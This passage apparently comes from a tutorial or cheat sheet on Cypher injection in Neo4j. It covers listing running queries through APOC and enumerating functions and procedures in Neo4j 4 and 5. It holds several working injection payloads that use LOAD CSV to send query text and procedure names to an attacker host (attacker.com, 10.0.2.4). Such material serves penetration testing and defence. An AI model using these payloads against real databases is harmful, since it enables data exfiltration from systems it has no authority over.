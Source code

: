 If APOC core is installed, we can use it to run SHOW TRANSACTIONS. If we run in the same transaction, only SHOW TRANSACTIONS will be returned instead of the query we are trying to see. We can use apoc.cypher.runMany to execute SHOW TRANSACTIONS, because unlike other apoc.cypher functions and procedures, it runs in a different transaction.

```plaintext
' OR 1=1 call apoc.cypher.runMany("SHOW TRANSACTIONS yield currentQuery RETURN currentQuery",{}) yield result LOAD CSV FROM 'http://10.0.2.4:8000/?' + result['currentQuery'] as l RETURN 1// 
```

## List all functions and methods

### Neo4j 4

Using the built-in procedures dbms.functions() and dbms.procedures() it's possible to list all functions and procedures.

Both do not get parameters and share the following return values:

|Name|Description|Type|Example|
|---|---|---|---|
|name|The name of the function or procedure|String|abs|
|signature|The signature — how to call it and return values|String|"abs(input :: INTEGER?) :: (INTEGER?)"|
|description|Describes what the function/procedure does|String|"Returns the absolute value of an integer."|

There are other return values that are less relevant to this article.

**Injection examples:**

```plaintext
' OR 1=1 WITH 1 as _l00 CALL dbms.procedures() yield name LOAD CSV FROM 'https://attacker.com/' + name as _l RETURN 1 // 
```

```plaintext
' OR 1=1 WITH 1 as _l00 CALL dbms.functions() yield name LOAD CSV FROM 'https://attacker.com/' + name as _l RETURN 1 // 
```

### Neo4j 5

These procedures were removed in Neo4j 5 and were already considered deprecated (but they worked) in Neo4j 4.

Instead, we can use SHOW PROCEDURES and SHOW FUNCTIONS

Show queries cannot be injected.

If APOC core is installed, we can use any of the procedures or functions that execute queries to list functions and procedures.

```plaintext
' OR 1=1 WITH apoc.cypher.runFirstColumnMany("SHOW FUNCTIONS YIELD name RETURN name",{}) as names UNWIND names AS name LOAD CSV FROM 'https://attacker.com/' + name as _l RETURN 1 // 
```

